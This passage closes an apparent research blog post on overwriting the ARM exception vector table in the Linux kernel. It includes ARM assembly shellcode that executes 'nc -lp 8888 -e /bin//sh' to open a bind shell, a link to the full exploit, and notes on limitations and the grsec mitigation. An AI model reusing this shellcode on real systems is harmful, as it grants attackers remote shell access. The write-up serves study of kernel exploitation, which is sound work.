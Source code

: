 ```nasm
    push    {r4}
    mov     r4, sp

    ldr     r5, =0x2d20636e
    ldr     r6, =0x3820706c
    ldr     r7, =0x20383838     @ nc -lp 8888 -e /bin//sh
    ldr     r8, =0x2f20652d
    ldr     r9, =0x2f6e6962
    ldr     r10, =0x68732f2f

    eor     r11, r11, r11
    push    {r5-r11}
    mov     r5, sp
    push    {r2}

    eor     r6, r6, r6
    push    {r0,r4,r5, r6}
    mov     r1, sp
    mov     r7, #11
    swi     0x0

    mov     r0, #99
    mov     r7, #1
    swi     0x0

```

You can find the complete code for the vulnerable module and the exploit [here](https://github.com/acama/arm-evt/tree/master/remote_example). Run the exploit:  
![Remote PoC](/images/corrupting_arm_evt/remote_poc.png)  

## Bonus: Interrupt Stack Overflow
It seems like the Interrupt Stack is adjacent to the EVT in most memory layouts. Who knows what kind of interesting things would happen if there was something like a stack overflow ?

A Few Things about all this
===========================
- The techniques discussed in this article make the assumption that the attack has knowledge of the kernel addresses which might not always be the case.
- The location where we are storing our shellcode (*0xffff0020*) might or might not be used by another distro's kernel.
- The exampe codes I wrote here are merely PoCs; they could definitely be improved. For example, on the remote scenario, if it turns out that the init process is the process being hijacked, the box will crash after we exit from the bind shell.
- If you hadn't noticed, the "vulnerabilities" presented here, aren't really vulnerabilities but that is not the point of this article.
- [^evtnote]: There is the possibility that the EVT might not be writeable in newer versions of the Linux kernel.

Final words
===========
Among other things, [grsec](http:/grsecurity.net/) prevents the modification of the EVT by making the page read-only.
If you want to play with some fun kernel challenges checkout the "kernelpanic" branch on [w3challs](http:/w3challs.com/challenges/wargame).  
Cheers, [@amatcama](https://twitter.com/amatcama)


[^1]: [Vector Rewrite Attack](http:/cansecwest.com/slides07/Vector-Rewrite-Attack.pdf)  
[2]: [Recent ARM Security Improvements](https:/forums.grsecurity.net/viewtopic.php?f=7&t=3292)  
[3]: [Entering an Exception](http:/infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0311d/I30195.html)  
[4]: [SWI handlers](http:/infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0040d/Cacdfeci.html)  
[5]: [ARM Exceptions](http:/osnet.cs.nchu.edu.tw/powpoint/Embedded94_1/Chapter%207%20ARM%20Exceptions.pdf)  
[6]: [Exception and Interrupt Handling in ARM](http:/www.iti.uni-stuttgart.de/~radetzki/Seminar06/08_report.pdf)  